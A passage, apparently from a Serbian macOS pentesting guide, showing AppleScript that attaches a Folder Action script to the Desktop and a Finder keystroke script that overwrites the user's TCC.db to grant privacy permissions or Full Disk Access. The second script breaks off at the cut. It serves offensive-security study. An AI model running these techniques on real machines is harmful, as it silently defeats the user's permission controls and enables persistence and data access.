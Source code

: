 ```bash
set folderPath to homeFolder & "Desktop"
set scriptPath to homeFolder & "Library:Scripts:Folder Action Scripts:script.scpt"

-- Create or get the Folder Action for the Desktop
if not (exists folder action folderPath) then
make new folder action at end of folder actions with properties {name:folderPath, path:folderPath}
end if
set myFolderAction to folder action folderPath

-- Attach the script to the Folder Action
if not (exists script scriptPath of myFolderAction) then
make new script at end of scripts of myFolderAction with properties {name:scriptPath, path:scriptPath}
end if

-- Enable the Folder Action and the script
enable myFolderAction
end tell
EOD

# File operations in the folder should trigger the Folder Action
touch "$HOME/Desktop/file"
rm "$HOME/Desktop/file"
````

#### Automatizacija (SE) + Pristupačnost (**`kTCCServicePostEvent`|**`kTCCServiceAccessibility`**)** do FDA\*

Automatizacija na **`System Events`** + Pristupačnost (**`kTCCServicePostEvent`**) omogućava slanje **tastera na procese**. Na ovaj način možete zloupotrebiti Finder da promenite korisnički TCC.db ili da date FDA proizvoljnoj aplikaciji (mada će možda biti potrebna lozinka za ovo).

Primer prebrisavanja korisničkog TCC.db preko Findera:

```applescript
-- store the TCC.db file to copy in /tmp
osascript <<EOF
tell application "System Events"
-- Open Finder
tell application "Finder" to activate

-- Open the /tmp directory
keystroke "g" using {command down, shift down}
delay 1
keystroke "/tmp"
delay 1
keystroke return
delay 1

-- Select and copy the file
keystroke "TCC.db"
delay 1
keystroke "c" using {command down}
delay 1

-- Resolve $HOME environment variable
set homePath to system attribute "HOME"

-- Navigate to the Desktop directory under $HOME
keystroke "g" using {command down, shift down}
delay 1
keystroke homePath & "/Library/Application Support/com.apple.TCC"
delay 1
keystroke return
delay 1
```